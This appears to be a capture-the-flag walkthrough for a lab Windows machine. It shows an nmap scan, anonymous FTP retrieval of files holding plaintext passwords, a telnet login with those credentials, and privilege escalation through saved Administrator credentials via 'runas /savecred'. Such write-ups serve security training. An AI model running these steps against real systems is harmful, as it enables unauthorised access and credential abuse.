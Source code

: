 ## Full TCP Port Scan (Aggressive) [301s]

```bash
sudo nmap -Pn -p- -A -T4 10.129.43.61
```

```text
Starting Nmap 7.95 (https://nmap.org) at 2025-03-12 13:58 EDT
Nmap scan report for 10.129.43.61
Host is up (0.060s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: PASV failed: 425 Cannot open data connection.
| ftp-syst: 
|_  SYST: Windows_NT
23/tcp open  telnet?
80/tcp open  http    Microsoft IIS httpd 7.5
|_http-server-header: Microsoft-IIS/7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: MegaCorp
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|phone|specialized
Running (JUST GUESSING): Microsoft Windows 2008|7|Vista|Phone|2012|8.1 (97%)
OS CPE: cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows_vista cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows cpe:/o:microsoft:windows_server_2012:r2 cpe:/o:microsoft:windows_8.1
Aggressive OS guesses: Microsoft Windows 7 or Windows Server 2008 R2 (97%), Microsoft Windows Server 2008 R2 or Windows 7 SP1 (92%), Microsoft Windows Vista or Windows 7 (92%), Microsoft Windows 8.1 Update 1 (92%), Microsoft Windows Phone 7.5 or 8.0 (92%), Microsoft Windows Server 2012 R2 (91%), Microsoft Windows Embedded Standard 7 (91%), Microsoft Windows Server 2008 R2 (89%), Microsoft Windows Server 2008 R2 or Windows 8.1 (89%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (89%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

TRACEROUTE (using port 21/tcp)
HOP RTT      ADDRESS
1   61.50 ms 10.10.16.1
2   91.90 ms 10.129.43.61

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/.
Nmap done: 1 IP address (1 host up) scanned in 298.80 seconds
```

## Enumeration and Exploitation

### FTP Anonymous Access
Connect to FTP and download files:
```bash
ftp 10.129.43.61
```
Login with `anonymous` and empty password. Download both files:
```text
ftp> get "Access Control.zip"
ftp> get backup.mdb
```

### Analyzing Downloaded Files
**backup.mdb** contains credentials in the Passwords table:
```text
access4u@security
```

**Access Control.zip** is password protected. Crack it using found credentials:

Password: `access4u@security` (found in .mdb file)

Extracted file contains:
```text
The password for the security account has been changed to 4Cc3ssC0ntr0ller
```

### Telnet Access
Login with discovered credentials:
```bash
telnet 10.129.43.61
```
```text
Trying 10.129.43.61...
Connected to 10.129.43.61.
Escape character is '^]'.
Welcome to Microsoft Telnet Service 

login: security
password: 4Cc3ssC0ntr0ller

*===============================================================
Microsoft Telnet Server.
*===============================================================
C:\Users\security>
```

### User Flag
Found in security's Desktop:
```cmd
C:\Users\security> type Desktop\user.txt
3b99f**********************
```

## Privilege Escalation

### Stored Credentials Discovery
```cmd
C:\Users\security> cmdkey /list
```
```text
Currently stored credentials:
    Target: Domain:interactive=ACCESS\Administrator
    Type: Domain Password
    User: ACCESS\Administrator
```

### Administrator Access
Execute commands using saved credentials:
```cmd
runas /user:ACCESS\Administrator /savecred "cmd /c type Users\Administrator\Desktop\root.txt > C:\Users\security\Desktop\root.txt"
```

### Root Flag
Retrieve the output file:
```cmd
C:\Users\security> type Desktop\root.txt
c5b4d**********************
```
